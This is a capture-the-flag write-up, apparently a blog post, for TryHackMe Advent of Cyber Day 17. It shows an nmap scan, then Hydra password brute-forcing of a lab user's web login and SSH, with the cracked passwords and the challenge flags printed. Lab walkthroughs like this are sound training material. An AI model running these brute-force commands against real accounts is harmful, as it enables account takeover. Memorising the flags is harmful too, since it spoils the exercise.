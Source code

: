 ```yaml
---
title: "Advent of Cyber Day 17 Hydra-ha-ha-haa"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 17 Hydra-ha-ha-haa"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!

Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

Supporting materials can be found [here](https://blog.tryhackme.com/hydra/).

**This machine will take between 3-4 minutes to boot.**

### Setup

```bash
nmap -A -vv 10.10.19.144
```

```bash
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 87:da:af:c1:ff:c5:03:11:54:80:41:d4:82:8a:99:d7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHO4ktM9/27P2QGFraBKPJS3H+OXCHRWwn2XlNF47So47uW/XhvJOBdKpGSGfd5xsBLUerN7O3YCbwYmvggkas6D4GN0lrtyJacdk1wGViCBZwVd/j1lf3EVmRpO8ZMLOgEo9ew8hkG5P6S+P4xnW8FG7aEcRO6EF1Mq64r+GG2VK/wE6IwbPBs6ILG/SC4FGPy1rSNvDNRPgUouMeQqFjTXNEX0cWv8JFsfNogreS05wAOzjyne3d2Ow7RyvSm10zP9GWUXRYmkpspSSGruAZ8STLH8G0l3Z1kaQSNl5tqtMAhONnsuMh18MZCZxOpUfiD7cT20/ZEF8lD9eYSV/h
|   256 2d:04:f7:b2:22:74:9a:32:a6:66:f8:50:0c:5c:c5:5a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHB+zsySVDiAxyh1OOC6IbA0FryCdBCXKOwBoqoLDkHC9+RA+8rwI4TVTrMuFsw77IKz67tgN56q8fO4BhVBMEU=
|   256 87:2c:2e:a9:2c:28:a2:6c:b5:96:ff:58:cb:15:45:b6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEW/CLFOcCBY09DHMT3eByXDXR1IysHYF2ecZVVf9PEt

80/tcp open http syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Christmas Challenge
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![https://imgur.com/6d5GxKt.png](https://imgur.com/6d5GxKt.png)

[Hydra - Brute Force HTTPs](https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/)

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.19.144 http-post-form "/login:username=^USER^&password=^PASS^&Login=Login:Your username or password is incorrect." -v
```

```bash
[80][http-post-form] host: 10.10.19.144   login: "molly"   password: "joyness1994"
```

### #1 Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

![https://imgur.com/yynj6n6.png](https://imgur.com/yynj6n6.png)

```bash
"THM{2673a7dd116de68e85c48ec0b1f2612e}"
```

### #2 Use Hydra to bruteforce molly's SSH password. What is flag 2?

```bash
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.19.144

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-08 18:32:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.19.144:22/

[22][ssh] host: 10.10.19.144   login: "molly"   password: "butterfly"
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-08 18:32:10
```

```bash
ssh molly@10.10.19.144
password: "butterfly"
```

```bash
molly@ip-10-10-19-144:~$ ls
flag2.txt
molly@ip-10-10-19-144:~$ cat flag2.txt
"THM{c8eeb0468febbadea859baeb33b2541b}"
```
